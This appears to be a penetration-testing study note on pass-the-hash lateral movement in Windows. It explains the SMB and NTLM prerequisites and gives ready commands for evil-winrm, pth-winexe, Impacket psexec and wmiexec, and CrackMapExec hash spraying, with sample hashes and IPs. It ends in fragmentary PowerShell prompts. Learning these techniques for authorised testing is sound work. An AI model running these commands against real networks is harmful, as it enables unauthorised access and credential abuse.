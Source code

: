 Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including [PsExec from Metasploit](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/), [Passing-the-hash toolkit](https://github.com/byt3bl33d3r/pth-toolkit), and [Impacket](https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py). The mechanics behind them are more or less the same in that the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.

Most tools that are built to abuse PtH can be leveraged to start a Windows service (for example, cmd.exe or an instance of PowerShell) and communicate with it using Named Pipes. This is done using the Service Control Manager API.

- This will not work for Kerberos authentication but only for server or service using NTLM authentication.
- Similarly to PsExec, requires
  - an SMB connection through the firewall (commonly port 445), and the *Windows File and Print Sharing* feature to be enabled. These requirements are common in internal enterprise environments.
  - the admin share **ADMIN$** to be available. In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

1. Passing the hash using **`evil-winrm`** from Kali:
    ```sh
    kali@kali:~$ evil-winrm -u Administrator -H <user_NTLM_hash> -i <IP>
    ```
2. Passing the hash using **`pth-winexe`** from Kali:
    ```sh
    kali@kali:~$ pth-winexe -U Administrator%<user_NTLM_hash> //10.11.0.22 cmd
    ```
3. Passing the hash using **impacket-psexec** from kali:
    ```sh
    # impacket-psexec [[domain/]username[:password]@]<targetName or address> -hashes LMHASH:NTHASH
    kali@kali:~$ impacket-psexec exam/zensvc@192.168.232.170 -hashes 00000000000000000000000000000000:a16216f23b22d10580234fb3f8964ba2
    ```
4.  Passing the hash using Impacket wmiexec from kali:
    ```sh
    kali@kali:~$ impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
    ```
5. Passing the hash using CrackMapExec from kali (won't give an interactive shell!!):
    ```sh
    crackmapexec smb 10.11.1.20-24 -u Administrator - -H :ee0c207898a5bccc01f38115019ca2fb
    ```
> 🚨**Note**:
> Use crackmapexec also to spray the local Administrator password or hash whenever possible using `--local-auth`!
### Overpass the Hash
With [overpass the hash](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf), we can "over" abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT) or service ticket, which grants us access to another machine or service as that user.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname